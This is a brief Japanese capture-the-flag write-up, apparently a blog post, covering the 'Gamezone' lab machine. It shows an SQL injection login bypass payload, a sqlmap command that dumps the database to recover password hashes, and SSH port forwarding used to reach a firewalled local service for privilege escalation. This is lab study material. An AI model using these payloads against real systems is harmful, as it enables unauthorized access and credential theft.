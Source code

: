 ```yaml
---
title: "Gamezone"
date: 2024-03-17T04:41:11+09:00
draft: false
---
```


### user

- SQLi をする
  - ユーザ名が分かってないので，ユーザ名のところで ```' or 1=1 -- -```
- portal.php ではレビューのデータベースを検索する
  - リクエストを burp でキャッチ
  - ```sqlmap -r request.txt --dbms=mysql --dump```
  - ハッシュパスワードとユーザ名がもらえる
  - ssh できるようになる

### root

- ssh ポートフォワーディング
  - ```ss -tulpn``` コマンドで 10000 ポートに外部から入る通信がファイアウォールによってブロックされていることが分かる
  - ```ssh -L 10000:localhost:10000 <username>@<ip>```
    - local で実行する
    - ```localhost:10000``` への通信を，```<username>@<ip>``` を経由して ```localhost:10000``` に転送する
  - SSHトンネル
    - ```ssh -L 127.0.0.1:8080:example.org:80 ssh-server```
    - なので，今回の始点と終点は ```localhost``` で，ssh-server が agent47 のサーバ
